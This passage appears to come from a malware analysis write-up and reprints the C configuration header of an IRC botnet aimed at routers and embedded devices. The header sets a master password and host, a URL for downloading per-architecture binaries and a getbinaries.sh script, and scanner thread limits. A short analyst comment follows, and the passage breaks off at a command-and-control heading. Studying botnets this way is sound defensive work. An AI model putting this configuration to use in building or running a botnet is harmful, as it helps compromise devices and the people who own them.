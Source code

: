         /* MASTER HOSTNAME WILL BE ABLE TO PERFORM AUTHENTICATION */
        #define master_host     "@hostname.tld"
        /* MASTER PASSWORD AUTHENTICATION (BOT PARTYLINE) */
        #define master_password "pwn"

        /* HTTP REFERENCE (WHERE YOU UPLOAD BINARIES AND GETBINARIES.SH) */
        #define reference_http  "http://127.0.0.1"

        /* NAME OF BINARIES: IF YOU CHANGE THESE VALUES, DON'T FORGET */
        /* TO CHANGE TOO IN MAKEFILE AND GETBINARIES.SH               */
        #define reference_mipsel   "mipsel"
        #define reference_mips     "mips"
        #define reference_superh   "sh"
        #define reference_arm      "arm"
        #define reference_ppc      "ppc"

        /* NICKNAME PREFIX:                     */
        /* WARNING: DO NOT CHANGE NCTYPE VALUE! */
        /* NOTE: MAXTHREADS ARE FOR SCANNER,    */
        /* DON'T CHANGE IF YOU DON'T KNOW WHAT  */
        /* YOU ARE DOING!                       */
        #ifdef MIPSEL
            #define irc_nick_prefix   "[MS]"
            #define nctype "m"
            #define maxthreads (128)
        #elif MIPS
            #define irc_nick_prefix   "[M]"
            #define nctype "m"
            #define maxthreads (128)
        #elif SUPERH
            #define irc_nick_prefix   "[S]"
            #define nctype "s"
            #define maxthreads (128)
        #elif ARM
            #define irc_nick_prefix   "[A]"
            #define nctype "a"
            #define maxthreads (128)
        #elif PPC
            #define irc_nick_prefix   "[P]"
            #define nctype "p"
            #define maxthreads (128)
        #else
            #define irc_nick_prefix   "[X]"
            #define nctype "x"
            #define maxthreads (128)
        #endif

        #endif

As you see, it is fairly simple configured, the IRC Servers are set, the passwords and where it downloads the ELF files. Also the nickname prefix depends of the enviroment.

## C&C INFORMATION
